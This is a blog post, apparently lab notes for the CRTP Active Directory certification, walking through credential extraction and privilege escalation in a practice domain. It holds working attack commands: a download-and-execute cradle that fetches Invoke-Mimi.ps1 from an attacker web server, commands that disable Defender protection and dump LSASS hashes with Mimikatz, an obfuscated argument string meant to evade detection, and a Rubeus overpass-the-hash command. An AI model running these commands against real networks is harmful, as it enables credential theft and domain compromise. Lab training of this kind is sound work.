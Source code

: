 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 2)
date: 2024-07-01 00:00:00 +0800
categories: [Cert, CRTP]
tags: [cert,active directory]     ## TAG names should always be lowercase
render_with_liquid: false
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## Extract Credentials from LSASS (Invoke Mimikatz)

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername}    -ComputerName dcorp-mgmt
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.

```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt


```jsx
---
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
---
```

###### Using OverPass-the-Hash (Rubeus)

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.

```jsx
---
ArgSplit.bat

##Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
---
```


```jsx
---
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
---
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.

```jsx
---
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
---
```

## Domain Admin Escalation using Derivative Local Admin (Find-PSRemotingLocalAdminAccess.ps1)


```jsx
---
 Find-PSRemotingLocalAdminAccess
---
```

Bypassing Applocker
